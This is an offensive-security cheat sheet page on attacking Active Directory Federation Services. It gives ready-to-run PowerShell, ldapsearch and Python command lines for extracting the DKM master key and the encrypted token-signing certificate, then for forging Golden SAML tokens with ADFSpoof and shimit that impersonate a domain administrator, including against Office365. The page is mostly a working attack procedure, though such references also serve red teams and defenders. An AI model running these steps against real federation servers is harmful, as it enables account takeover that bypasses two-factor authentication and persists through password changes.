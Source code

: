 # Active Directory - Federation Services

Active Directory Federation Services (AD FS) is a software component developed by Microsoft that provides users with single sign-on (SSO) access to systems and applications located across organizational boundaries. It uses a claims-based access control authorization model to maintain application security and to provide seamless access to web-based applications that are hosted inside or outside the corporate network.

## ADFS - DKM Master Key

* The DKM key is stored in the `thumbnailPhoto` attribute of the AD contact object.

```ps1
$key=(Get-ADObject -filter 'ObjectClass -eq "Contact" -and name -ne "CryptoPolicy"' -SearchBase "CN=ADFS,CN=Microsoft,CN=Program Data,DC=domain,DC=local" -Properties thumbnailPhoto).thumbnailPhoto
[System.BitConverter]::ToString($key)
```

## ADFS - Trust Relationship

Gets the relying party trusts of the Federation Service.

* Search for `IssuanceAuthorizationRules`

    ```ps1
    Get-AdfsRelyingPartyTrust
    ```

## ADFS - Golden SAML

Golden SAML is a type of attack where an attacker creates a forged SAML (Security Assertion Markup Language) authentication response to impersonate a legitimate user and gain unauthorized access to a service provider. This attack leverages the trust established between the identity provider (IdP) and service provider (SP) in a SAML-based single sign-on (SSO) system.

* Golden SAML are effective even when 2FA is enabled.
* The token-signing private key is not renewed automatically
* Changing a user’s password won't affect the generated SAML

**Requirements**:

* ADFS service account
* The private key (PFX with the decryption password)

**Exploitation**:

* Run [mandiant/ADFSDump](https://github.com/mandiant/ADFSDump) on ADFS server as the **ADFS service account**. It will query the Windows Internal Database (WID): `\\.\pipe\MICROSOFT##WID\tsql\query`
* Convert PFX and Private Key to binary format

    ```ps1
    # For the pfx
    echo AAAAAQAAAAAEE[...]Qla6 | base64 -d > EncryptedPfx.bin
    # For the private key
    echo f7404c7f[...]aabd8b | xxd -r -p > dkmKey.bin 
    ```

* Create the Golden SAML using [mandiant/ADFSpoof](https://github.com/mandiant/ADFSpoof), you might need to update the [dependencies](https://github.com/szymex73/ADFSpoof).

    ```ps1
    mkdir ADFSpoofTools
    cd $_
    git clone https://github.com/dmb2168/cryptography.git
    git clone https://github.com/mandiant/ADFSpoof.git 
    virtualenv3 venvADFSSpoof
    source venvADFSSpoof/bin/activate
    pip install lxml
    pip install signxml
    pip uninstall -y cryptography
    cd cryptography
    pip install -e .
    cd ../ADFSpoof
    pip install -r requirements.txt
    python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s adfs.pentest.lab saml2 --endpoint https://www.contoso.com/adfs/ls
    /SamlResponseServlet --nameidformat urn:oasis:names:tc:SAML:2.0:nameid-format:transient --nameid 'PENTEST\administrator' --rpidentifier Supervision --assertions '<Attribute Name="http://schemas.microsoft.com/ws/2008/06/identity/claims/windowsaccountname"><AttributeValue>PENTEST\administrator</AttributeValue></Attribute>'
    ```

**Manual Exploitation**:

* Retrieve the WID path: `Get-AdfsProperties`
* Retrieve the ADFS Relying Party Trusts: `Get-AdfsRelyingPartyTrust`
* Retrieve the signing certificate, save the `EncryptedPfx` and decode it `base64 -d adfs.b64 > adfs.bin`

    ```powershell
    $cmd.CommandText = "SELECT ServiceSettingsData from AdfsConfigurationV3.IdentityServerPolicy.ServiceSettings"
    $client= New-Object System.Data.SQLClient.SQLConnection($ConnectionString);
    $client.Open();
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT name FROM sys.databases"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $name = $reader.GetString(0)
    $reader.Close()
    Write-Output $name;
    ```

* Retrieve the DKM key stored inside the `thumbnailPhoto` attribute of the Active Directory:

    ```ps1
    ldapsearch -x -H ldap://DC.domain.local -b "CN=ADFS,CN=Microsoft,CN=Program Data,DC=DOMAIN,DC=LOCAL" -D "adfs-svc-account@domain.local" -W -s sub "(&(objectClass=contact)(!(name=CryptoPolicy)))" thumbnailPhoto
    ```

* Convert the retrieved key to raw format: `echo "RETRIEVED_KEY_HERE" | base64 -d > adfs.key`
* Use [mandiant/ADFSpoof](https://github.com/mandiant/ADFSpoof) to generate the Golden SAML

NOTE: There might be multiple master keys in the container, remember to try them all.

**Golden SAML Examples**

* SAML2: requires `--endpoint`, `--nameidformat`, `--identifier`, `--nameid` and `--assertions`

    ```ps1
    python ADFSpoof.py -b adfs.bin adfs.key -s adfs.domain.local saml2 --endpoint https://www.contoso.com/adfs/ls
    /SamlResponseServlet --nameidformat urn:oasis:names:tc:SAML:2.0:nameid-format:transient --nameid 'PENTEST\administrator' --rpidentifier Supervision --assertions '<Attribute Name="http://schemas.microsoft.com/ws/2008/06/identity/claims/windowsaccountname"><AttributeValue>PENTEST\administrator</AttributeValue></Attribute>'
    ```

* Office365: requires `--upn` and `--objectguid`

    ```ps1
    python3 ADFSpoof.py -b adfs.bin adfs.key -s sts.domain.local o365 --upn user@domain.local --objectguid 712D7BFAE0EB79842D878B8EEEE239D1
    ```

* Other: connect to the service provider using a known account, analyze the SAML token attributes given and reuse their format.

**NOTE**: Sync the time between the attacker's machine generating the Golden SAML and the ADFS server.

Other interesting tools to exploit AD FS:

* [secureworks/whiskeysamlandfriends/WhiskeySAML](https://github.com/secureworks/whiskeysamlandfriends/tree/main/whiskeysaml) - Proof of concept for a Golden SAML attack with Remote ADFS Configuration Extraction.
* [cyberark/shimit](https://github.com/cyberark/shimit) - A tool that implements the Golden SAML attack

    ```ps1
    python ./shimit.py -idp http://adfs.domain.local/adfs/services/trust -pk key -c cert.pem -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id REDACTED
    ```

## References

* [I AM AD FS AND SO CAN YOU - Douglas Bienstock & Austin Baker - Mandiant](https://troopers.de/downloads/troopers19/TROOPERS19_AD_AD_FS.pdf)
* [Active Directory Federation Services (ADFS) Distributed Key Manager (DKM) Keys - Threat Hunter Playbook](https://threathunterplaybook.com/library/windows/adfs_dkm_keys.html)
* [Exploring the Golden SAML Attack Against ADFS - 7 December 2021](https://www.orangecyberdefense.com/global/blog/cloud/exploring-the-golden-saml-attack-against-adfs)
* [Golden SAML: Newly Discovered Attack Technique Forges Authentication to Cloud Apps - Shaked Reiner - 11/21/17](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)
* [Meet Silver SAML: Golden SAML in the Cloud - Tomer Nahum and Eric Woodruff - Feb 29, 2024](https://www.semperis.com/blog/meet-silver-saml/)
